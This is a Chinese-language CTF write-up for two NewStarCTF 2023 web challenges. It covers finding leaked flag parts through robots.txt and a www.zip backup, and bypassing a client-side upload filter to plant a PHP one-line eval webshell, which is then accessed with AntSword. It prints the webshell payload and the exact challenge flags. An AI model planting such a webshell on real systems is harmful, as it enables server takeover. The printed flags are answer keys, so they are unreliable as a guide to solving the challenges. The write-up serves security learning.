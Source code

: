# NewStarCTF_2023

## WEEK1|WEB 泄露的秘密

进入给定靶机提示**“粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！”**：

1. 敏感信息很容易想到robots.txt，通过url访问robots.txt也确实有信息，得到第一段flag

   ```tex
   PART ONE: flag{r0bots_1s_s0_us3ful
   ```

2. 对于第二个敏感信息由于题目做得不多，试了网上说的常见的还是不行，干脆直接dirsearch扫服务器的目录发现除了robots.txt可以访问之外还有www.zip可以访问，在url添加www.zip下载压缩包，解压得到一个index.php文件中有第二段flag

   ```php
   $PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
   ```

   ## WEEK1|WEB Begin of Upload

   通过题目可以看到应该是利用文件上传的漏洞，在google浏览器先上传一个php文件发现有过滤，在**设置**中对js进行禁止就可以成功上传php文件，php文件内容如下：（利用一句话木马）

   ```php
   <?php @eval($_POST['attack']);?>
   ```

   成功将文件上传后利用蚁剑连接一句话木马成功进入服务器，在服务器的文件列表发现有f11114g文件打开得到flag

   ```tex
   flag{b082c1e5-526a-4dbd-a5c4-00fa035bfb3c}
   ```

   ![1](https://github.com/2aurora2/CTF-WriteUp/blob/main/NewStarCTF_2023/image/1.png)

